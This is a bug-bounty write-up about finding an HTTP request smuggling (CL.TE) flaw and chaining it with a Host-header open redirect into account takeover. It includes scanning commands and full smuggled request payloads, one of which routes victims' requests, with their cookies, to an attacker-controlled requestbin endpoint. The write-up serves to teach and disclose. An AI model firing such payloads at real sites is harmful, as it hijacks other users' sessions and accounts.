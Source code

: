 ```yaml
---
title: I owe your Request | HTTP Request Smuggling leads to Full Accounts takeover
author: Muhammad Adel
date: 2021-08-1 19:40:00 +0200
categories: [Bug Hunting]
tags: [bug hunting, web, http request smuggling, writeups]
---
```


## **Introduction**
Peace be upon you all, this is actually my first writeup which going to be about a very interesting vulnerability, HTTP Request Smuggling, which I found in a private program which I was able to escalate it Full account takeover. I am going to share with you how to search for this vulnerability in a large scale and what the best tool and resource to utilize when testing for this vulnerability.

It begins almost when the amazing researcher [James kettle](https://twitter.com/albinowax) announce his new research at DEFCON which address a new era of the HTTP request smuggling but this time for HTTP/2. I watched the video and I couldn't understand any thing, So I went back and studied the previous version of this attack and I thought what about testing this "rare attack" as some people think before moving to the new one. I ended up finding this critical vulnerability at two different private programs.

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiH8QkhdKu6BciITe6D%2F-MiHFxfVj0C3vf_kr-u0%2Ftwitter.png?alt=media&token=76b7e577-2df0-4f4c-96f1-c7624ad3a351)

## **About HTTP Request Smuggling**
HTTP request smuggling is an attack in which an attacker interferes with the processing of a sequence of HTTP requests that a web application receives from one or more users. Vulnerabilities related to HTTP request smuggling are often critical, allowing an attacker to bypass security measures, gain unauthorized access to sensitive data, and directly compromise the information of other users of the application.

I am not going to cover it here because Portswigger did really good job at explaining this with practical Labs.

[https://portswigger.net/web-security/request-smuggling](https://portswigger.net/web-security/request-smuggling)

## **Methodology**
After you had learned about the vulnerability you can start looking for it in some bug bounty programs. you have two methods but remember you need to test this with caution because it is very harmful:

1.Using HTTP Request Smuggling Burp Extension either burp community or pro. you can widen your scope by adding more subdomains and URLs select them all and from the extension tab click **smuggle probe.**

‌2\. Using [smuggler.py](https://github.com/defparam/smuggler) tool which is a command line tool that replicate almost the same work of burp extension.

```bash
# Single Host:
python3 smuggler.py -u <URL>

# List of hosts:
cat list_of_hosts.txt | python3 smuggler.py
```
‌Note: These scanner will not guarantee the existing of vulnerability, there are false positives so you need to validate every finding of any of these tools.
‌
## **The Finding**

Since it is a private program we are going to name it as `readcted.com`I started by collecting some subdomains then I feed all those subdomain to burp and started to crawl the website. Then I run burp extension scanner in all the subdomains. and after some time I found this issue at my target tab.

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiH8QkhdKu6BciITe6D%2F-MiHNT93loWWcwRV3sTA%2Fburp_issue.png?alt=media&token=4d18476c-72bc-4dcc-add0-d7de0ee221db)

It is a CT.TE Here, the front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header. this information is very important to be able to exploit the vulnerability.

### **Validating**

I started now to validate if the vulnerability exits of its just a false positive. I send the following request:

‌

```
POST / HTTP/1.1 
Host: subdoamin.readcted.com
Upgrade-Insecure-Requests: 1 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 7 
Transfer-Encoding: chunked 
Transfer-encoding: identity


1
A
0
```
which successfully triggers a connection time out indicating the backend server process the transfer encoding header. Now it is the time to exploit it.

### **Exploiting**

To exploit HTTP Request Smuggling Vulnerability you have to use turbo intruder to be able to send concurrent request and to receive the smuggled one before it reach the user. we will send the following request:

‌
```
POST / HTTP/1.1
Host: redacted.com
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Transfer-Encoding: chunked
Transfer-encoding: identity

0

GET /video HTTP/1.1
Foo: x
```
We manged to send the smuggled request to **`/video`** to be able to disrupt the user experience by smuggle a not found web page. then we will chose **`smuggle attack CL.TE`** form the extension tab and then click attack.

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiH8QkhdKu6BciITe6D%2F-MiHTkc_PU7-cN6_EbLN%2Fnot_found%20turbo%20intuder.png?alt=media&token=53a10c8c-d248-4983-be21-a0cd2ba3c881)

Great! now we confirmed that the vulnerability exists and can disrupt the user experience who browse the website to redirect him to a not found page. but still we need to escalate this vulnerability to something else. as you know HTTP Request smuggling can lead to many vulnerabilities but still we need anther harmless vulnerability like Self XSS or Open redirection to be able to escalate our attack. I manged to search for Self XSS but unfortunately I didn't find. Let's search for an open redirected.

### **Harmless Open Redirect**

what we need to find is an open redirection to be able to redirect the user traffic with their own cookie to our server. we have found before a local redirection which is if the website isn't found it will make a redirection like the following:

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiMOdbd-AYVghO5XQ4x%2F-MiMRuFbfOUxn-gI7MvH%2Flocal%20redirection.png?alt=media&token=918b888e-cce1-42b6-9238-49b7f140fb67)

The problem is that the redirection is locally in the website and we need an external one. but what if change the host header to something else?!

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiMOdbd-AYVghO5XQ4x%2F-MiMSa2Vt5Cnx5F579av%2Fexternal%20redirection.png?alt=media&token=2673760a-394a-44ba-8339-6ac730428b47)

**BINGO!!** almost all the companies will not accept this vulnerability per se but by combining this with HTTP Request Smuggling we will do Magic!

### **Escalating to Full Account takeover**

Now let's craft our request that will be smuggled to send our malicious one. I will [request bin ](https://requestbin.com/)to receive users traffic into my endpoint. the payload shall looks like the following:
‌
```
POST / HTTP/1.1
Host: redacted.com
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 91
Transfer-Encoding: chunked
Transfer-encoding: identity

0

GET /video HTTP/1.1
Host: enfliy4kmrr8i.x.pipedream.net
Foo: x
```

and then pass our request to turbo intruder and start our attack:

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiMqTVoY0h_myvBGJ3h%2F-MiN12rU2wKYeV-0YdJu%2F1-turbo-intruder-redacted.png?alt=media&token=2cc95312-90cc-49ad-aee0-9016c56a0f11)

Okay, the attack worked now let's back to or endpoint to see what's happen.

![](https://gblobscdn.gitbook.com/assets%2F-MR5KvOL_gXbwMWP6Z6m%2F-MiMqTVoY0h_myvBGJ3h%2F-MiN2Uly_EoUyexj4Omh%2F3-Request%20bin%20--%20with%20Cookie-redacted.png?alt=media&token=2b599ba5-3516-45b1-914b-341164a2c1fc)

**BOOM!!** My endpoint is flooding with requests that contains cookie. Now, I can fully takeover any account who is browsing the website.


## **Conclusion**

I have reported this and they are working on a fix at the current moment. The sad story is that this report has been closed as duplicate but I was able to find the same technique on anther website and received 4 digit bounty as reward.

I hope you enjoyed reading this and if you have any question feel free to ping me any time, Happy Hunting!
